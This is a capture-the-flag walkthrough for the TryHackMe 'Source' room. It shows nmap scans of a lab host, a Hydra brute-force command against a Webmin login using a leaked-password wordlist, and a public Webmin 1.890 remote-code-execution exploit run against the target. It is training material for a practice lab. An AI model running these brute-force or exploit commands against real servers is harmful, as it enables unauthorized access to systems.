 # source

**Room Link:** [https://tryhackme.com/room/source](https://tryhackme.com/room/source)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/10000 - HTTP

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Tried to bruteforce the admin password but it blocked my IP after so many attempts, this is clearly not the intended route.

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra -S -l admin -s 10000 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt ip-10-10-221-100.eu-west-1.compute.internal http-post-form "/session_login.cgi:user=^USER^&pass=^PASS^:F=Warning!" -V
```





**Kali**

```
git clone https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE.git
cd WebMin-1.890-Exploit-unauthorized-RCE/
python webmin-1.890_exploit.py  ip-10-10-221-100.eu-west-1.compute.internal 10000 id
```

<figure><img src="../../.gitbook/assets/image (14) (1) (4).png" alt=""><figcaption></figcaption></figure>

I tried to get a full shell but nothing worked, there was a metasploit exploit which I could do for that but I didn't want to.

















































